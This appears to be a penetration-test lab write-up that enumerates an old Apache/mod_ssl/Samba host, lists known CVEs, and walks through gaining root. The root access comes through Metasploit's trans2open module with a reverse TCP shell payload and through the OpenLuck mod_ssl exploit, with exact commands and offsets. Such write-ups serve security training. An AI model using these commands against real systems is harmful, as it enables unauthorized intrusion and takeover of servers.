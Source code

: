 # Findings
- 80/443 - `<IP Address>`

- Default Webpage
  - Apache
  - PHP

- Information Disclosure
  - 404 Page
  - Server headers disclose version information

- 80/TCP  open http   Apache httpd 1.3.20 ((Unix) Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)

- mod_ssl/2.8.4 - mod_ssl 2.8.7 and lower are vulnerable to a remote buffer overflow which may allow a remote shell.
  - (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-0082), OSVDB-756

- SMB
  - Unix (Samba 2.2.1a)

- Webalizer Version 2.01
  - (http://`<IP Address>`/usage/usage_201911.html)

- SSH
  - OpenSSH 2.9p2

# Vulnerabilities
- 80/443 - Potentially vulnerable to OpenFuck
  - (https://exploit-db.com/exploits/764)
  - (https://github.com/heltonWernik/OpenLuck)

- 139 - Potentially vulnerable to trans2open
  - (https://rapid7.com/db/modules/exploit/linux/samba/trans2open)
  - (https://exploit-db.com/exploits/7)

# Nessus Results
- OpenSSL Insufficient Patching
- OpenSSH Remote Privilege Elevation
  - Multiple Remote Overflows
- Apache Insufficient Patching

# Exploitation

## Metasploit
1. in metasploit console `search trans2open`
2. `use <linux option>`
   -  ##### We use Linux option, since we know the target is operating on a Linux distribution
3. `options`
4. `set rhosts <IP Address>`
5. `run`

#### --- Execute fails, shell dies repeatedly. Use non-staged payload instead. ---
  
1. run `options` again to get payload options
2. `set payload linux/x86/shell_reverse_tcp`
   - ##### first non-staged payload found 
3. `run`

#### --- Successfully gain root access with remote shell ---

## Manual Exploitation
- Using OpenLuck exploit listed under Vulnerabilities
- Install OpenLuck per instructions in GitHub repo for OpenLuck
  - `./OpenFuck`
    - brings up a "man page"
  - `./OpenFuck target box [port] [-c N]`
    - target &rarr; support offset
    - box &rarr; IP address or hostname
    - -c &rarr; open N connections, 40-50 if unknown
- `./OpenFuck 0x6b <IP Address> -c 40`

#### --- Successfully gain root access with remote shell ---